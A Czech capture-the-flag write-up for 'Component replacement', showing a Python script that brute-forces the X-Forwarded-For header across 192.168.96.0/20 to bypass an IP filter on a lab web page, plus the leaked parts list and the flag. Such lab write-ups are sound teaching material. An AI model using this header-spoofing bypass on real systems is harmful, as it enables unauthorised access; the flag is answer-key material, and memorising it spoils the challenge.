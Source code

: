# Component replacement

## Zadání

```
Ahoy, officer,

the ship had to lower its speed because of broken fuel efficiency enhancer. To order a correct spare part, the chief engineer needs to know exact identification code of the spare part. However, he cannot access the web page listing all the key components in use. Maybe the problem has to do with recently readdressing of the computers in the engine room - the old address plan for whole ship was based on range 192.168.96.0/20. Your task is to find out the identification code of the broken component.

May you have fair winds and following seas!

The webpage with spare parts listing is available at http://key-parts-list.cns-jv.tcc.

Hint: Try to bypass the IP address filter.
```

## Řešení

Stránka po připojení vrací:

```
You are attempting to access from the IP address 10.200.0.4, which is not assigned to engine room. Access denied.
```

Úloha připomíná [The Geography](/2021-The-Catch/data_extraction/the_geography), kde ale použití HTTP hlavičky `X-Forwarded-For` nebylo zamýšlené řešení. Zkusíme tedy nastavit `X-Forwarded-For` pro daný rozsah IP adres a najít vlajku:

![GPT](gpt.png "ChatGPT-4")

```python
import requests
from ipaddress import ip_network

URL = 'http://key-parts-list.cns-jv.tcc'

def main():
    for ip in ip_network('192.168.96.0/20'):
        headers = {
            'X-Forwarded-For': str(ip)
        }
        
        response = requests.get(URL, headers=headers)
        
        if 'FLAG' in response.text:
            print(response.text)
            exit(0)

    print("FLAG not found.")

if __name__ == '__main__':
    main()
```

```
Spare part;Identification code;In duty
Bubler;PART{SNIg-NYW1-0eSq-vMqO};8
Camshaft;PART{BAym-Fxee-llBO-wRSz};4
Connecting rod;PART{k76T-boGS-Z2s9-BrGa};22
Continuity converter;PART{63Ph-aHXa-MOOf-yzam};4
Crankshaft;PART{ScTp-kzE4-fNed-F9AZ};4
Cylinder head;PART{sHL3-l6pw-sQuw-XVcq};96
Flywheel;PART{Fg4G-UcHw-BKaz-8ozB};12
Fuel efficiency enhancer;FLAG{MN9o-V8Py-mSZV-JkRz};0
Fuel lines;PART{NJu2-Dy2b-001D-dEyn};112
Fuel pump;PART{ymm0-I0FQ-jZ6t-FIZq};8
Rotation accelerator;PART{ZJSD-AdYM-yh3e-pOa0};4
Turbocharger;PART{iHqc-3Od4-1Yuq-jtX0};12
Piston;PART{Bxlj-Ud2U-zNfm-3XGQ};96
Plasma rectifier;PART{pxZ5-QJUJ-dzkr-I5Yt};1
Plunger pump;PART{3C1U-ghSo-euI0-wLi0};4
Self-locking fuel tank;PART{wLyo-Odc9-38IP-zfmT};12
Valve;PART{erre-BopV-7Lrw-xepu};64
```

## Vlajka

```
FLAG{MN9o-V8Py-mSZV-JkRz}
```

